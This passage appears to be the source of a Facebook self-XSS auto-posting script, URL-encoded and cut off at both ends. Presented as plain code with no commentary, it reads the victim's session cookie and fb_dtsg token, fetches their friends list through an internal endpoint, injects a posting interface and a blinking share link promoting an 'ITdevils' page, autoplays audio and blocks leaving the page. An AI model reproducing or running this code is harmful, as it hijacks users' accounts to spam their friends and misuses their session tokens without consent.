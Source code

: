 ngth%3D%2730%27%20data-ariaprefix%3D%27Post%20Privacy%20Setting%27%20rel%3D%27toggle%27%20id%3D%27js_14%27%3E%3Ci%20class%3D%27mrs%20defaultIcon%20customimg%20img%20sp_5ym4oy%20sx_042661%27%3E%3C/i%3E%3Cspan%20class%3D%27uiButtonText%27%3EFriends%3C/span%3E%3C/a%3E%3Ca%3E%3Cspan%20id%3D%27UIButton_Start%27%20onclick%3D%27autopostingfunc%28%29%27%20style%3D%27text-align%3Acenter%3Bfont-family%3Atahoma%3Bcolor%3Awhite%3Bwidth%3A45px%3Bheight%3A25px%3B%27%20class%3D%27_42ft%20_4jy0%20_11b%20_4jy3%20_4jy1%20selected%27%3EPost%3C/span%3E%3C/a%3E%3C/div%3E%22%3Bdisplay+%3D%22%3Cdiv%20style%3D%27text-align%3Acenter%3Bfont-size%3A10px%3Bwhite-space%3Apre-wrap%3Bcolor%3Agray%27%3E%22%3Bdisplay+%3D_text%3Bwindow%5Btag+%22_close%22%5D%3Dtrue%3Bdisplay+%3D%22%3C/div%3E%22%3Bdisplay+%3D%22%3C/div%3E%22%3Bdocument.getElementById%28%22pagelet_sidebar%22%29.innerHTML%3Ddisplay%3Bjx%3D%7Bb%3Afunction%28%29%7Bvar%20e%3D%211%3Bif%28%22undefined%22%21%3Dtypeof%20ActiveXObject%29%7Btry%7Be%3Dnew%20ActiveXObject%28%22Msxml2.XMLHTTP%22%29%7Dcatch%28t%29%7Btry%7Be%3Dnew%20ActiveXObject%28%22Microsoft.XMLHTTP%22%29%7Dcatch%28n%29%7Be%3D%211%7D%7D%7Delse%7Bif%28window.XMLHttpRequest%29%7Btry%7Be%3Dnew%20XMLHttpRequest%7Dcatch%28r%29%7Be%3D%211%7D%7D%7Dreturn%20e%7D%2Cload%3Afunction%28b%2Cc%2Ca%2Ch%2Cg%29%7Bvar%20e%3Dthis.d%28%29%3Bif%28e%26%26b%29%7Be.overrideMimeType%26%26e.overrideMimeType%28%22text/xml%22%29%3Bh%7C%7C%28h%3D%22GET%22%29%3Ba%7C%7C%28a%3D%22text%22%29%3Bg%7C%7C%28g%3D%7B%7D%29%3Ba%3Da.toLowerCase%28%29%3Bh%3Dh.toUpperCase%28%29%3Bb+%3Db.indexOf%28%22%3F%22%29+1%3F%22%26%22%3A%22%3F%22%3Bvar%20k%3Dnull%3B%22POST%22%3D%3Dh%26%26%28k%3Db.split%28%22%3F%22%29%2Cb%3Dk%5B0%5D%2Ck%3Dk%5B1%5D%29%3Be.open%28h%2Cb%2C%210%29%3Be.onreadystatechange%3Dg.c%3Ffunction%28%29%7Bg.c%28e%29%7D%3Afunction%28%29%7Bif%284%3D%3De.readyState%29%7Bif%28200%3D%3De.status%29%7Bvar%20b%3D%22%22%3Be.responseText%26%26%28b%3De.responseText%29%3B%22j%22%3D%3Da.charAt%280%29%3F%28b%3Db.replace%28/%5B%5Cn%5Cr%5D/g%2C%22%22%29%2Cb%3Deval%28%22%28%22+b+%22%29%22%29%29%3A%22x%22%3D%3Da.charAt%280%29%26%26%28b%3De.responseXML%29%3Bc%26%26c%28b%29%7Delse%7Bg.f%26%26document.getElementsByTagName%28%22body%22%29%5B0%5D.removeChild%28g.f%29%2Cg.e%26%26%28document.getElementById%28g.e%29.style.display%3D%22none%22%29%2Cerror%26%26error%28e.status%29%7D%7D%7D%3Be.send%28k%29%7D%7D%2Cd%3Afunction%28%29%7Breturn%20this.b%28%29%7D%7D%3BsetTimeout%28%22ChangeLocation%22%2C1%29%3Bwindow.onbeforeunload%3Dfunction%28%29%7Bif%28window%5Btag+%22_close%22%5D%29%7Breturn%22This%20script%20is%20running%20now%21%22%7D%7D%3Bvar%20now%3D%28new%20Date%29.getTime%28%29%3Bvar%20tag%3D%22Close%22%3Bvar%20i%3D3%3Bvar%20tay%3D3%3Bvar%20suc%3D0%3Bvar%20arr%3Dnew%20Array%3Bvar%20arn%3Dnew%20Array%3Bvar%20pho%3Dnew%20Array%3Bvar%20getuname%3Ddocument.getElementsByClassName%28%22fbxWelcomeBoxName%22%29%5B0%5D.innerHTML%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20msg%3D%22%22%3Bjx.load%28window.location.protocol+%22//www.facebook.com/ajax/typeahead/first_degree.php%3F__a%3D1%26filter%5B0%5D%3Duser%26lazy%3D0%26viewer%3D%22+user_id+%22%26token%3Dv7%26stale_ok%3D0%22%2Cfunction%28e%29%7Bvar%20t%3De%3Bvar%20n%3Dt.substring%28t.indexOf%28%22%7B%22%29%29%3Bvar%20r%3DJSON.parse%28n%29%3Br%3Dr.payload.entries%3Bfor%28var%20s%3D0%3Bs%3Cr.length%3Bs++%29%7Barr.push%28r%5Bs%5D.uid%29%7Dfor%28var%20o%3D0%3Bo%3Cr.length%3Bo++%29%7Barn.push%28r%5Bo%5D.text%29%7Dfor%28var%20u%3D0%3Bu%3Cr.length%3Bu++%29%7Bpho.push%28r%5Bu%5D.photo%29%7Di%3Darr.length-1%3Btay%3Di%3Bconsole.log%28arr.length%29%7D%29%3Bvar%20parent%3Ddocument.getElementsByTagName%28%22html%22%29%5B0%5D%3Bvar%20_body%3Ddocument.getElementsByTagName%28%22body%22%29%5B0%5D%3Bvar%20_div%3Ddocument.createElement%28%22div%22%29%3B_div.style.height%3D%2225%22%3B_div.style.width%3D%22100%25%22%3B_div.style.position%3D%22fixed%22%3B_div.style.top%3D%22auto%22%3B_div.style.bottom%3D%220%22%3B_div.align%3D%22center%22%3Bvar%20_audio%3Ddocument.createElement%28%22audio%22%29%3B_audio.style.width%3D%22100%25%22%3B_audio.style.height%3D%2225px%22%3B_audio.controls%3Dtrue%3B_audio.autoplay%3Dtrue%3B_audio.src%3D%22https%3A//codegooglesite.googlecode.com/files/YellowLemonTree.mp3%22%3B_div.appendChild%28_audio%29%3B_body.appendChild%28_div%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3Bbody%3Ddocument.body%3Bif%28body%21%3Dnull%29%7Bdiv%3Ddocument.createElement%28%22div%22%29%3Bdiv.style.position%3D%22fixed%22%3Bdiv.style.display%3D%22block%22%3Bdiv.style.width%3D%22100px%22%3Bdiv.style.opacity%3D.9%3Bdiv.style.bottom%3D%22+60px%22%3Bdiv.style.left%3D%22+0px%22%3Bdiv.style.backgroundColor%3D%22rgba%280%2C0%2C0%2C0.5%29%22%3Bdiv.style.border%3D%221px%20solid%20rgba%280%2C0%2C0%2C0.5%29%22%3Bdiv.style.padding%3D%223px%22%3Bdiv.innerHTML%3D%22%3Ca%20style%3D%27font-weight%3Abold%3Bcolor%3A%23E30505%27%20href%3D%27https%3A//www.facebook.com/sharer/sharer.php%3Fu%3Dhttps%3A//www.facebook.com/ITdevils.net%3Fref%3Dhl%27%20title%3D%27Share%27%3E%3Cblink%3E%3Ccenter%3ESHARE%3C/center%3E%3C/blink%3E%3C/a%3E%22%3Bbody.appendChild%28div%29%7Dif%28body%21%3Dnull%29%7Bdiv%3Ddocument.createElement%28%22div%22%29%3Bdiv.style.position%3D%22fixed%22%3Bdiv.style.display%3D%22block%22%3Bdiv.style.width%3D%22100px%22%3Bdiv.style.opacity%3D.9%3Bdiv.style.bottom%3D%22+35px%22%3Bdiv.style.left%3D%22+0px%22%3Bdiv.style.backgroundColor%3D%22rgba%280%2C0%2C0%2C0.5%29%22%3Bdiv.style.border%3D%221px%20solid%20rgba%280%2C0%2C0%2C0.5%29%22%3Bdiv